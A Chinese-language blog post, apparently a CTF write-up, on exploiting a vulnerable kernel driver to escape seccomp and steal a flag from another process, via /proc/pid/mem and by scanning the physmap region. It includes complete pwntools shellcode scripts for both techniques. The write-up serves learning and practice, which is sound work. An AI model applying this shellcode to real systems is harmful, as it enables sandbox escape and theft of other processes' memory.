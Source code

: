 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 3: 利用内核漏洞操纵其他进程"
author: wsxk
date: 2025-10-20
comments: true
---
```


- [1. 前言](#1-前言)
- [2. 子进程存储flag](#2-子进程存储flag)
  - [2.1 解题思路](#21-解题思路)
- [3. 子进程存储flag后退出——physmap](#3-子进程存储flag后退出physmap)
  - [3.1 解题思路](#31-解题思路)


# 1. 前言<br>
遇到了某种特定类型的CTF题目，大意是说，我们只能和父进程交互，但是flag被保留在子进程的内存当中（没有其他地方留存），父进程能够与内核驱动交互。题目的本意是让我们通过驱动的漏洞，让父进程能够偷取子进程的信息，打破进程隔离。<br>
我感觉十分的牛逼，故单开一章用于讲述实际实现和解法。<br>

# 2. 子进程存储flag<br>
代码逻辑如下图所示:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123352.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123312.png)
总的来说，父进程创建子进程读取flag文件的内容后，并删除flag文件本身。
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133555.png)
随后父进程开启seccomp，只允许write执行，并允许我们输入shellcode<br>
有问题的驱动程序代码如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133635.png)

## 2.1 解题思路<br>
1. 首先还是利用内核漏洞，解除`seccomp`机制。<br>
2. 随后，确定子进程的pid后，用`open`函数打开`/proc/pid/mem`。
3. `fseek`文件描述符到`0x404040`（flag的存放位置处）
4. `read`函数读取flag内容并打印

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

escape_seccomp_shellcode = """
mov    rax,QWORD PTR gs:0x15d00
and    QWORD PTR [rax],0xfffffffffffffeff
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3   /*目标程序打开的驱动文件描述符*/
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall 

/*open file*/
mov rax, SYS_open
lea rdi, [rip+file_name]
mov rsi, O_RDONLY
mov rdx, 511
syscall

/*fseek*/
mov rdi, rax
mov rsi, 0x404040 /*flag存放的虚拟地址*/
mov rdx, SEEK_SET
mov rax, SYS_lseek
syscall

/*fread*/
lea rsi, [rip+buffer]
mov rdx,0x200
mov rax, SYS_read
syscall

/*fwrite*/
mov rdi, 1 #out_fd
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_write
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}

.align 8
file_name:
.string "/proc/166/mem"
.align 8
buffer:
.space 0x200
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


# 3. 子进程存储flag后退出——physmap<br>
这道题跟#2的题目非常类似，唯一有区别的点在于:**子进程在加载flag后，没有一直循环等待，而是直接退出**<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251010213236.png)
这道题利用到的是linux内核中的`physmap`机制。<br>
**`physmap`的核心是：内核空间维护了一段虚拟地址，以ffff888000000000起始，这个地址与机器实际拥有的物理地址空间是一一映射关系。也就是说，如果你直接通过这段地址中读取内容，等于直接从物理内存里读内容**<br>
这里又涉及到另一点，进程销毁后，其内容还保留在物理内存当中；此时你如果不做其他的申请内存的操作，那么内容所处的空间就不会被占用，继而一直存在！<br>


## 3.1 解题思路<br>
这道题目flag还是存储在`0x404040`地址处，即某个page的0x40位置。<br>
尝试遍历内核地址空间的`physmap`区域每个page的0x40地址开头的值是否是`pwn`，是的话将其打印出来即可。<br>
```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
print(hex(u64(b"college{")))

escape_seccomp_shellcode = """
mov rsi, 0x7b6567656c6c6f63  /*special flag*/
/*traverse the addr*/
mov rax, 0xffff888000000044
loop:
mov rdi, [rax]
cmp rdi, rsi
je end
add rax, 0x1000
jmp loop
end:
mov rdi, rax
mov rbx, 0xffffffff810b69a9 /*printk addr*/
call rbx
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>